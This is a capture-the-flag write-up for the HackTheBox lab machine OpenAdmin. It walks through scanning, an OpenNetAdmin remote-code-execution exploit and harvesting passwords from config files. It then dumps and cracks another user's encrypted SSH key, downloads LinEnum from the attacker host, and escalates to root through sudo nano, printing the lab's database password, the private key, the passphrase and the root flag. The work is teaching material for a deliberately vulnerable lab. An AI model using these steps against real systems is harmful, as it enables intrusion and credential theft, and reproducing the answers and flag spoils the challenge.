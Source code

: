 # HTB-OpenAdmin
My write up for the HackTheBox machine: OpenAdmin (10.10.10.171)

OpenAdmin was an easy and enajoyable machine to root.

The machine had a web application vulnerable to RCE, yielding a www-data shell.

The general process was:
Lazy system administrator escalation to user1 > CTF like to user2 > nopasswd sudo privesc to root. 

## Lets get started!
As usual, I run nMap:
```console
root@kali:~# nmap -sV -T4 -sC 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-14 23:36 EST
Nmap scan report for 10.10.10.171
Host is up (0.0094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Found HTTP on port 80 and SSH on port 22.

Visiting the page, apache shows me Ubuntu landing, so I learn the host is an Ubuntu system. 
I then attempted login via SSH using common creds, did not work.

## Dirb

```console
$ dirb http://10.10.10.171/
```
Running Dirb results in finding /artwork and /music

Looking around on /artwork, I can't see anying interesting.

Looking around on /music, I see a login button that links to OpenNetAdmin, looking around I can see it's version 18.1.1.

Googling opennetadmin 18.1.1 shows it is vulnrable to RCE, I also find the exploit code (located in RCE.sh).

## RCE
Running:
root@kali: ~./RCE.sh http://10.10.10.171/ona/

Gives us a shell:
```console
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
## Looting for credentials 
Now I have a restricted shell - I need to escalate privileges.

Grep to loot for passwords in apache config files:
```console
$ grep -nr 'pass' . 
Found a couple passwords:
../../ona/www/local/config/database_settings.inc.php:13:        'db_passwd' => n1nj4W4rri0R!',
./include/adodb5/drivers/adodb-postgres64.inc.php:757:  //      $db->PConnect("host=host1 user=user1 password=secret port=4341");
./include/adodb5/datadict/datadict-oci8.inc.php:111:            $password = isset($options['PASSWORD']) ? $options['PASSWORD'] : 'tiger';
```

I then try to login using the above passwords to the two user accounts on the machine.

```console
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
Worked for Jimmy!
```console
root@kali:~# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
Last login: Fri Jan 17 02:27:34 2020 from 10.10.14.49
jimmy@openadmin:~$
```
## Lets get enumerating!

I used LinEnum by running the following on the victim:

```console
jimmy@openadmin:/var/tmp$ wget 10.10.**.**:9000/LinEnum.sh
--2020-01-17 03:52:23--  http://10.10.**.**:9000/LinEnum.sh
Connecting to 10.10.14.6:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.01s   
2020-01-17 03:52:23 (3.66 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

jimmy@openadmin:/var/tmp$ chmod +x LinEnum.sh
```

Looking through, I see apache and a curious file I wasn't able to see before at:

> /var/www/internal/main.php

The contents are:

```php
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
```
Hmm, I can't execute the .php file or access joanna's home directory - what can I do?

## Curl
I see it's listening at port 528466, so a cURL to localhost:528466 dumps Joanna's SSH key!
```console
jimmy@openadmin:/var/www/internal$ curl -X POST http://127.0.0.1:52846/main.php -d "username=joanna"
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
## Password cracking!

Now it's time to ask John.
```console
root@kali:~/Documents/OpenadminWriteup# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsahash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (?)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2020-01-17 00:19) 0.2976g/s 4268Kp/s 4268Kc/s 4268KC/sa6_123..*7¡Vamos!
Session completed
```
John cracks the password: 

> bloodninjas

SSH into joanna's account:
```console
root@kali:~/Documents/OpenadminWriteup# ssh joanna@10.10.10.171 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
```

## Final PrivEsc

Check what Joanna can run without supplying a password:
```console
joanna@openadmin:~$ sudo -l
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Joanna can use nano, so running:

```console 
joanna@openadmin:~$ sudo -u root nano /opt/priv
```

Gives me nano as root, CTRL-R + CTRL-X allows me to execute whatever I like with out new found privileges!

[In Nano]
```console
Command to execute: id 

uid=0(root) gid=0(root) groups=0(root)

Command to execute: cat /root/root.txt

2f907ed450b361b2c2bf4e8795d5b561
```

## Fin.
